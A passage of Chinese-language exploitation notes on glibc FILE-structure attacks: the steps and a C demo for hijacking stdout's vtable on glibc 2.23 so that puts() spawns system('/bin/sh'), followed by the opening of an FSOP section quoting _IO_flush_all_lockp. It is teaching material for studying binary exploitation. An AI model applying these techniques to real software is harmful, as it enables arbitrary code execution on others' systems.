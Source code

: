 `vtable` 中的函数调用时会把对应的 `_IO_FILE_plus` 指针作为第一个参数传递，因此这里我们把 `/bin/sh` 写入 `_IO_FILE_plus` 头部

__攻击:__

1. 伪造一个`fake_vtable`，并在`fake_vtable`中设置函数指针
2. 修改`_IO_FILE_plus`头为`/bin/sh`值
3. 修改`_IO_FILE_plus->vtable = fake_vtable`
4. 通过触发`fake_vtable`中的函数指针即可触发漏洞

__示例:__

```C
// glibc-2.23.so
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <demo.h>

int main()
{
    u64 fake_vtable = MALLOC(0x100);

    // 设置fake_vtable
    SET_ADDR_OFFSET_VALUE(fake_vtable, 7 * 8, &system); // 设置fake_vtable的第7个函数指针(__xsputn)为system

    // 设置_IO_FILE和vtable
    SET_ADDR_VALUE(stdout, BINSH);                      // 设置stdout的_IO_FILE的前八个字节为/bin/sh值
    SET_ADDR_OFFSET_VALUE(stdout, 0xD8, fake_vtable);   // 设置stdout的vtable为fake_vtable

    // 触发漏洞
    puts(""); // 触发_IO_FILE的__xsputn函数指针，即system("/bin/sh")
    
    return 0;
}
```

## FSOP

__利用版本:__

glibc-2.23及其以下的版本

__原理:__

`_IO_flush_all_lockp`会刷新所有`FILE`结构体的输出缓冲区，执行这个程序的时候会沿着`fp->chain`执行`overflow`程序, 以下情况会调用`_IO_flush_all_lockp`

- 执行`abort`函数时。(2.27之后不再刷新)
- `__malloc_assert` (仅刷新 stderr ，2.36后不再刷新)
- 执行`exit`函数时。

```C
fp = (_IO_FILE *)_IO_list_all;
while (fp != NULL)
{
    // ...
    if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)) && _IO_OVERFLOW(fp, EOF) == EOF)
    {

        result = EOF;
    }
    // ...
}
```
